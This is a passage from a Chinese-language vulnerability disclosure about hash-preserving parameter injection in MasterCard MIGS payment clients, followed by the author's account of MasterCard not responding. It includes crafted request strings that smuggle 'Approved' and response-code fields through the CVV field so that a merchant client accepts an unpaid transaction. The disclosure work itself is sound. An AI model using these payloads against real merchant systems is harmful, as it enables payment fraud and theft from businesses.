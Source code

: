 比如，请求格式如下所示：

```
vpc_AccessCode=9E33F6D7&amp;vpc_Amount=25&amp;vpc_Card=Visa&amp;vpc_CardExp=1717&amp;vpc_CardNum=4599777788889999&amp;vpc_CardSecurityCode=999&amp;vpc_OrderInfo=ORDERINFO&amp;vpc_SecureHash=THEHASH&amp;vpc_SecureHashType=SHA256
```

从服务器返回的响应如下所示：

```
vpc_Message=Approved&amp;vpc_OrderInfo=ORDERINFO&amp;vpc_ReceiptNo=722819658213&amp;vpc_TransactionNo=2000834062&amp;vpc_TxnResponseCode=0&amp;vpc_SecureHash=THEHASH&amp;vpc_SecureHashType=SHA256
```

对Fusion Payments而言，我们可以在vpc_CardSecurityCode（CVV）这个字段中插入额外数据来利用这个漏洞：

```
vpc_AccessCode=9E33F6D7&amp;vpc_Amount=25&amp;vpc_Card=Visa&amp;vpc_CardExp=1717&amp;vpc_CardNum=4599777788889999&amp;vpc_CardSecurityCode=999%26vpc_Message%3DApproved%26vpc_OrderInfo%3DORDERINFO%26vpc_ReceiptNo%3D722819658213%26vpc_TransactionNo%3D2000834062%26vpc_TxnResponseCode%3D0%26vpc_Z%3Da&amp;vpc_OrderInfo=ORDERINFO&amp;vpc_SecureHash=THEHASH&amp;vpc_SecureHashType=SHA256
```

客户端以及支付网关会为该字符串生成正确的哈希值。

现在，我们可以将这段数据POST回客户端（完全不需要与MIGS服务器通信），我们会稍微修改这段数据，以便客户端可以读取正确的变量值（大多数客户端只会检查vpcTxnResponseCode以及vpcTransactionNo）：

```
vpc_AccessCode=9E33F6D7%26vpc_Amount%3D25%26vpc_Card%3DVisa%26vpc_CardExp%3D1717%26vpc_CardNum%3D4599777788889999%26vpc_CardSecurityCode%3D999&amp;vpc_Message=Approved&amp;vpc_OrderInfo=ORDERINFO&amp;vpc_ReceiptNo=722819658213&amp;vpc_TransactionNo=2000834062&amp;vpc_TxnResponseCode=0&amp;vpc_Z=a%26vpc_OrderInfo%3DORDERINFO&amp;vpc_SecureHash=THEHASH&amp;vpc_SecureHashType=SHA256
```

需要注意的是：

这段数据的哈希结果与之前的数据一致。

客户端会忽略vpc_AccessCode变量以及该变量内部的值。

客户端会处理vpc_TxnResponseCode等变量，然后认为交易过程没有问题。

我们可以认为这是个一个MIGS客户端漏洞，然而正是MasterCard选择的哈希算法导致这种情况发生，如果变量值经过编码，那么这个问题就不会存在。

**5.2 MIGS的回应**

MasterCard还没有回复HMAC-SHA256中存在的这个问题。我同时将这个问题抄送给了处理过前一个漏洞的那几个人，然而我没有收到任何回复邮件，他们甚至没有回复“我们正在确认这个问题是否存在”之类的邮件。在讨论MD5漏洞时，我将自己的Facebook告诉过他们，以便他们能及时联系上我。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](//base_request.html/img/1.png)[![](https://p5.ssl.qhimg.com/t01b056e371c97a3d7c.png)](https://p5.ssl.qhimg.com/t01b056e371c97a3d7c.png)

某些人总是不愿正面面对他们收到的漏洞报告，甚至会去否认这些报告，所以现在在报告漏洞时，我会将相关信息保存到经密码保护的文章中（这也是为什么你会在我的博客中看到几篇密码加密的文章）。目前为止，至少有3个来自MasterCard的IP地址访问过这篇文章（3次密码输入行为）。他们必须输入密码才能阅读报告，因此他们不可能在不阅读这篇文章的前提下不小心点击到文章链接。现在每个星期我都会敦促他们给我个回复。

我希望他们能警告连接到他们系统的每个用户，让这些用户注意检查及过滤这类注入攻击。
